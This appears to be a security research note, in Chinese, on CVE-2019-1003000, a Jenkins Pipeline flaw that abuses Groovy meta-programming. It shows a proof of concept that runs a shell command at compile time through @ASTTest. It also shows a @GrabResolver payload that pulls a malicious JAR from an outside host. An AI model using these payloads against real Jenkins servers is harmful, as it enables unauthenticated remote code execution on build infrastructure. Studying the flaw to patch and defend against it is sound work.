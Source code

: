 # CVE-2019-1003000





## Pipeline

> 大部分開發者會選擇 Jenkins 作為 CI/CD 伺服器的其中一個原因是因為 Jenkins 提供了一個很強大的 Pipeline 功能，使開發者可以方便的去撰寫一些 Build Script 以完成自動化的編譯、測試及發佈! 你可以想像 Pipeline 就是一個小小的微語言可以去對 Jenkins 進行操作(而實際上 Pipeline 是基於 Groovy 的一個 DSL)



## Meta-Programming

元编程，也称作超编程，是指某类计算机程序的编写。这类计算机程序编写或者操纵其它程序（或者自身）作为它们的数据，或者在运行时完成部分本应在编译时完成的工作。多数情况下，与手工编写全部代码相比，程序员可以获得更高的工作效率，或者给与程序更大的灵活度去处理新的情形而无需重新编译。







Pipeline是基于Groovy的一个DSL，而Groovy刚好是对于Meta-Programming非常友善的语言。



**@groovy.transform.ASTTest**

> `@ASTTest` is a special AST transformation meant to help debugging other AST transformations or the Groovy compiler itself. It will let the developer “explore” the AST during compilation and **perform assertions on the AST** rather than on the result of compilation. This means that this AST transformations gives access to the AST before the bytecode is produced. `@ASTTest` can be placed on any annotable node and requires two parameters:



本地验证：

```
this.class.classLoader.parseClass('''
@groovy.transform.ASTTest(value={
    assert java.lang.Runtime.getRuntime().exec("touch pwned")
})
def x
''');
```

结果：

```
$ ls
poc.groovy

$ groovy poc.groovy
$ ls
poc.groovy  pwned
```



在jenkins上复现：

```
unable to resolve class org.jenkinsci.plugins.workflow.libs.Library
```





**@Grab**

Grape(`@Grab`) 是一個 Groovy 內建的動態 JAR 相依性管理程式! 可讓開發者動態的引入不在 classPath 上的函式庫!

语法如下：

```
@Grab(group='org.springframework', module='spring-orm', version='3.2.5.RELEASE')
import org.springframework.jdbc.core.JdbcTemplate
```



**@GrabResolver**

```
@GrabResolver(name='restlet', root='http://maven.restlet.org/')
@Grab(group='org.restlet', module='org.restlet', version='1.1.6')
import org.restlet
```



```
this.class.classLoader.parseClass('''
@GrabResolver(name='restlet', root='http://orange.tw/')
@Grab(group='org.restlet', module='org.restlet', version='1.1.6')
import org.restlet
''')
```



透過 Grape 可以讓 Jenkins 引入惡意的函式庫







## Reference

http://groovy-lang.org/metaprogramming.html

https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html